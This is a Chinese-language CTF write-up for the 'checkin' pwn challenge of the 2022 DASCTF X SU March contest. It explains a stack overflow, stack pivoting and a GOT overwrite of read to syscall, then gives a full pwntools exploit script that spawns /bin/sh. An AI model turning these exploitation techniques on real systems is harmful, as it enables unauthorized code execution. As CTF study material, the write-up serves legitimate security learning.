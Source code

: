 ```yaml
---
layout: article
pageview: true
key: 2022-03-28-buu-March-pwn-wp
title: 2022DASCTF X SU 三月春季挑战赛 Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


# 2022DASCTF X SU 三月春季挑战赛 Pwn题WP

<!--more-->

## checkin

题目环境2.31，保护只有NX，题目内可利用函数只有`read`和`setvbuf`，main函数中溢出到ret便结束了。

调用`read`函数的代码通过`rbp+buf`的形式算出`rsi`,我们可以通过溢出控制`rbp`并再次调用`read`函数来在指定地址写入内容，之后栈迁移便可控制程序流执行`execve("/bin/sh",0,0`。

我们通过修改`read`函数的got表，使其指向`syscall`,再通过`syscall`调用`execve`即可。

2.31的libc中，修改`read`地址为`syscall`需要爆破半字节。



```python
from pwn import *
context(arch='amd64', log_level='debug')
flag = 0
ps = './checkin'
libc = ELF("./libc.so.6")
elf = ELF(ps)


def getConn():
    global flag
    if(flag == 1):
        return remote(host, port)
    return process(ps)


def debug(conn, arg=None):
    global flag
    if(flag == 1):
        return
    gdb.attach(conn, arg)
    pause()


def csu(call, rdi, rsi, rdx):
    csu_end = 0x40124A
    csu_front = 0x401230
    payload = p64(csu_end)+p64(0)+p64(1)+p64(rdi)+p64(rsi) + \
        p64(rdx)+p64(call)+p64(csu_front)+b'\x00'*0x38
    return payload


leave_ret = 0x00000000004011e2
p_rsi_15 = 0x0000000000401251
p_rdi = 0x0000000000401253
addr = elf.bss()+0x500
p = getConn()


p.send(b'a'*0xa0+p64(addr+160)+p64(0x4011bf))
sleep(0.1)

log.info(hex(addr+160))

pay = csu(elf.got['read'], 0, elf.got['read'], 2) + \
    p64(0x401156)

pay = pay.ljust(0xa0, b'\x00')
pay += p64(addr-8)+p64(leave_ret)
p.send(pay)


sleep(0.1)

p.send('\x00\xb0')

sleep(0.1)

addr += 0x100

p.send(b'a'*0xa0+p64(addr+160)+p64(0x4011bf))
sleep(0.1)

binsh = addr-0x100

pay = csu(elf.got['read'], 0, binsh, 8)+p64(0x401156)
p.send(pay.ljust(0xa0, b'\0')+p64(addr-8)+p64(leave_ret))
sleep(0.1)

p.send('/bin/sh\x00')

sleep(0.1)
addr += 0x100

# debug(p)

p.send(b'a'*0xa0+p64(addr+160)+p64(0x4011bf))
sleep(0.1)

pay = p64(0x40124a)+p64(0)+p64(1)+p64(0)+p64(addr+0x100)+p64(59)+p64(elf.got['read'])+p64(
    0x401230)+p64(0)*3+p64(binsh)+p64(0)*2+p64(elf.got['read'])+p64(0x401230)

p.send(pay.ljust(0xa0, b'\0')+p64(addr-8)+p64(leave_ret))

sleep(0.1)
p.send('\x00'*59)


p.interactive()

```
